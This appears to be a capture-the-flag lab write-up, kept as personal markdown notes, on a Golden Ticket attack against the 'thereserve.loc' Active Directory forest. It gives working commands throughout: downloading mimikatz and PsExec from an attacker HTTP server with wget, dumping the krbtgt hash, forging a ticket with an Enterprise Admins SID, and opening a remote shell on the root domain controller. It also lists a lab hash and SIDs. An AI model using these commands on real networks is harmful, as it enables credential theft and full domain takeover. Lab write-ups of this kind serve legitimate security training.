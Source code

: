 
[[Dumping secrets from CORPDC#Connect to RDP with the Administrator's credentials|Connect to CORP.DC with Administration credentials]]


To carry out this attack you will need:

- The KRBTGT password hash.
- The SID of the child Domain Controller (CORPDC).
- The user account we want to impersonate (Administrator).
- Dump SID of **“Enterprise Admin”** of root.thereserve.loc.
	To make your attack more advanced, you can also inject the SID for the `Enterprise Admins` group so that the user you impersonate would have high privileges. This will give you access to all the machines in the entire Forest if we are successful in doing so.

## Get mimikatz from the attacking machine

- On the attacking machine open a python http server in the directory where mimikatz.exe is.
	$ `sudo python3 -m http.server`

- On the victim machine run powershell and then the following code.
	PS C:\Users\Administrator> `wget http://10.50.110.16:8000/mimikatz.exe -o mimikatz.exe`
## Dump the krbtgt Hash


1. On the VICTIME_MACHINE poweshell run mimikatz.exe.
    
2. Once in mimikatz run:
	`privilege::debug` 
	 Ensure this outputs privilege "20" ok.
    
3. ﻿`lsadump::lsa /inject /name:krbtgt`
	This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket.
	
    ![[Golden Ticket Attack with mimikatz-20240608142406169.webp]]

4. Take note of what is outlined in red you'll need it to create the golden ticket.
	- S-1-5-21-170228521-1485475711-3199862024
	- krbtgt
	- 0c757a3445acb94a654554f3ac529ede


## Get the SID of the child Domain Controller (CORPDC)
On powershell run:

PS C:\Users\Administrator> `Get-ADComputer -Identity "CORPDC"`

![[Golden Ticket Attack with mimikatz-20240608151913994.webp]]


## Dump SID of **“Enterprise Admin”** of root.thereserve.loc

Run on powershell:
PS C:\Users\Administrator> `Get-ADGroup -Identity "Enterprise Admins" -Server rootdc.thereserve.loc`

![[Golden Ticket Attack with mimikatz-20240608152813146.webp]]


## Create the Golden ticket
And now, with all the required information, we can create our own Golden Ticket, which will be injected in the current session.
In **mimikatz** run:

 `kerberos::golden /user:Administrator /domain:corp.thereserve.loc /sid:S-1-5-21-170228521-1485475711-3199862024-1009 /service:krbtgt /rc4:0c757a3445acb94a654554f3ac529ede /sids:S-1-5-21-1255581842-1300659601-3764024703-519 /ptt`

### Understanding the Command
- `kerberos::golden`: Indicates that you are creating a Golden Ticket.
- `/user:Administrator`: Specifies the user for whom the Golden Ticket is being created (in this case, the domain administrator).
- `/domain:corp.thereserve.loc`: Specifies the target domain.
- `/sid:S-1-5-21-170228521-1485475711-3199862024-1009`: Specifies the Security Identifier (SID) of the target domain.
- `/service:krbtgt`: Specifies the service account to use, which is typically `krbtgt` (Kerberos Ticket Granting Ticket).
- `/rc4:0c757a3445acb94a654554f3ac529ede`: Specifies the RC4 hash of the `krbtgt` account password.
- `/sids:S-1-5-21-1255581842-1300659601-3764024703-519`: Adds an additional SID to the ticket (useful for domain enumeration and access).
- `/ptt`: Indicates that the ticket should be injected into the current session (Pass-The-Ticket).

![[Golden Ticket Attack with mimikatz-20240608145025836.webp]]

## Use the Golden Ticket to access other machine

﻿In mimikatz run:﻿
﻿`misc::cmd`
﻿
﻿This will open a new command prompt with elevated privileges to all machines.
﻿
![[Golden Ticket Attack with mimikatz-20240608145512638.webp]]

## Test the access to rootdc.thereserve.loc

Run on the shell the following command:

C:\Users\Administrator>`dir \\rootdc.thereserve.loc\c$`

![[Golden Ticket Attack with mimikatz-20240608153405335.webp]]
Exit the shell.

## Get a shell on the ROOTDC

### Download pstools to the attacking machine
https://learn.microsoft.com/en-us/sysinternals/downloads/psexec

- Unzip the file.
- Start a python http server on you attacking machine in the directory where you unzipped pstools.
- Get psexec.exe from the powershell on the ROOTCD machine.
	PS C:\Users\Administrator> `wget http://10.50.110.16:8000/PsExec.exe -o psexec.exe`

### PowerShell session in ROOTDC

You can also issue a command prompt in the ROOTDC through PSEXEC.

PS C:\Users\Administrator> `.\psexec.exe \\rootdc.thereserve.loc cmd.exe`

![[Golden Ticket Attack with mimikatz-20240614145454849.webp]]

![[Golden Ticket Attack with mimikatz-20240609134614662.webp]]

![[Golden Ticket Attack with mimikatz-20240609134803204.webp]]
![[Golden Ticket Attack with mimikatz-20240609134915452.webp]]

## Authenticate the flags on e-citizen

> Flag 15, Foothold on Parent Domain
> Flag 16, Administrative access to Parent Domain

**Next step:** [[Maintain persistence]]
